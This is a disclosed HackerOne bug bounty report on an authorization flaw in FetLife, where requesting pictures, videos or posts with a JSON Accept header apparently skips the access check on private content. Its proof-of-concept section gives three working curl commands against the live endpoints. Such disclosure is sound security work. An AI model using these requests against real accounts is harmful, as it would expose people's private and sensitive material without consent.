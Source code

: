 # Able to access private picture/video/writing when requesting for their JSON response

## Report Details
- **Report ID**: 1424291
- **URL**: https://hackerone.com/reports/1424291
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-12-12T06:43:03.279Z
- **Disclosed**: 2021-12-16T15:05:17.101Z

## Reporter
- **Username**: trieulieuf9
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: fetlife

## Vulnerability Information
# Description
Endpoint `https://fetlife.com/users/{user-id}/pictures/{pic-id}` has 2 types of responses, HTML and JSON. The type of response depends on `Accept`  header of request it get. If request contains `Accept: application/json`, then it will return JSON response. Other than that, it returns HTML response.

When this endpoint returns JSON response, it does not check if requester is authorized to access requested resource. Therefore, attacker can access any private picture by requesting them in JSON response.

# PoC
User `trieulieuf9` has the following private assets
**Picture**: https://fetlife.com/users/14104003/pictures/120041856
**Video**: https://fetlife.com/users/14104003/videos/3102890
**Post**: https://fetlife.com/users/14104003/posts/7673012

We can access them with the following `curl` commands
**Picture**: 
```
curl https://fetlife.com/users/14104003/pictures/120041856 -H "Cookie: _fl_sessionid={your-session}" -H "Accept: application/json" --user-agent "not cur1"
```
**Video**:
```
curl https://fetlife.com/users/14104003/videos/3102890 -H "Cookie: _fl_sessionid={your-session}" -H "Accept: application/json" --user-agent "not cur1"
```
**Post**:
```
curl https://fetlife.com/users/14104003/posts/7673012 -H "Cookie: _fl_sessionid={your-session}" -H "Accept: application/json" --user-agent "not cur1"
```

# Limitation
Attacker needs to know asset IDs before the attack.

## Impact

Attacker can access any private picture/video/post if he can somehow get their ID.

## Attachments
No attachments
